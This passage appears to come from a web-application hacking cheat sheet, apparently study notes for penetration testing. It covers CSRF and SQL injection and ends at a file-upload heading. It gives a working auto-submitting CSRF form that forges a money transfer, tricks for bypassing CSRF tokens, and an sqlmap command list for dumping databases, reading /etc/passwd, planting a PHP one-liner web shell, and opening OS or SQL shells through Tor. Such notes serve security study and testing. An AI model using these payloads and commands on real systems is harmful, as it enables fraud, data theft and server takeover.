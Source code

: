 ```
<body onload=document.getElementById('xsrf').submit()>
<form id="xsrf" action="transfer" method=post enctype="text/plain">
<input name='{"username":"Attacker","amount":2500,"padding":"' value='garbage"}' type='hidden'>
</form>
```

- Sometimes the CSRF tokens aren't validated, try sending a request without a token.
- Sometimes the CSRF tokens are not mapped to the user, try using another user's token.
- Sometimes the CSRF token's presence is required but the value can be left blank or random string of same length.
- Sometimes the CSRF tokens do not have sufficient randomness, try guessing them.

## Ch5 - SQLi

[sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

- technique: BEUSTQ
- dump:
    - `--current-user`
    - `--dbs`
    - `-D db_name --tables`
    - `-D db_name -T tbl_name --dump`
    - `-D db_name -T tbl_name --columns`
    - `-D db_name -T tbl_name --columns "col_name" --dump`
- `--wizard`
- `--dump-all`
- URL rewriting: uses \* as an injection point.
- Speeding up
    - `--threads 3`
    - `--null-connection`
    - `--keep-alive`
    - `--predict-output`
- Reading files
    - `--privileges`
    - `--file-read=/etc/passwd`
    - Ex. /var/www/config.inc , /var/www/html/config/config.inc.php
- Writing files
    - `--file-write=shell.php`
    - `--file-dest=/var/www/shell-php` 
    - PHP one-liner shell: `<?php system($_GET[1337]); ?>`
- POST requests
    - `-u URL --data="params" -p param_to_test`
    - Save the request and `sqlmap.py -r request.txt -p param_to_test`
- Cookies `--cookie="PHPSESSID=AAAAAAAAAAAAAAAAAAAAAAAA"`
- HTTP auth `--auth-cred and --auth-type`
- Database shell `--sql-shell`
- Command shell `--os-shell` or `--os-cmd "uname -a"`
- Tamper `--tamper charencode -v3`
- Proxy `--proxy="https://proxy.example.com:8080"`
- Tor `--tor`

# Ch6 - File upload
